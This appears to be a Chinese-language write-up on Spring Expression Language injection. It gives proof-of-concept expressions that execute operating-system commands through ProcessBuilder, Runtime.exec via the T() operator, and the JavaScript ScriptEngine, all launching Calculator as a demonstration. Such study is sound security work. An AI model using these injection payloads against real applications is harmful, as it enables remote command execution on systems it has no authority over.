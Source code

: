 接着就是获取类然后调用相应的方法来执行命令.

## PoC
### ProcessBuilder

```java
new java.lang.ProcessBuilder(new String[]{"open", "-a", "Calculator"}).start()
```

```java
new ProcessBuilder(new String[]{"open", "-a", "Calculator"}).start()
```

### RunTime
说明: 由于`RunTime`类使用了单例模式, 获取对象不能直接通过构造方法获得, 必须通过静态方法`getRuntime`来获得, 调用静态方法的话需要使用`SpEL`的`T()`操作符, `T()`操作符会返回一个`object`.

```java
T(java.lang.Runtime).getRuntime().exec("open -a Calculator")
```

```java
T(Runtime).getRuntime().exec(new String[]{"open", "-a", "Calculator"})
```

### ScriptEngine
由于`JS`中的`eval`函数可以把字符串当成代码进行解析, 且从`JDK6`开始自带`ScriptEngineManager`这个类, 支持在`JS`中调用`Java`的对象. 因此, 可以利用`Java`调用`JS`引擎的`eval`, 然后在`Payload`中反过来调用`Java`对象.

获取所有`JavaScript`引擎信息:

```java
public static void main(String[] args) {
    ScriptEngineManager manager = new ScriptEngineManager();
    List<ScriptEngineFactory> factories = manager.getEngineFactories();
    for (ScriptEngineFactory factory: factories){
            System.out.printf(
                "Name: %s%n" + "Version: %s%n" + "Language name: %s%n" +
                "Language version: %s%n" +
                "Extensions: %s%n" +
                "Mime types: %s%n" +
                "Names: %s%n",
                factory.getEngineName(),
                factory.getEngineVersion(),
                factory.getLanguageName(),
                factory.getLanguageVersion(),
                factory.getExtensions(),
                factory.getMimeTypes(),
                factory.getNames()
            );
    }
}
```
通过输出结果可以知道, `getEngineByName`的参数可以填`nashorn`, `Nashorn`, `js`, `JS`, `JavaScript`, `javascript`, `ECMAScript`, `ecmascript`.
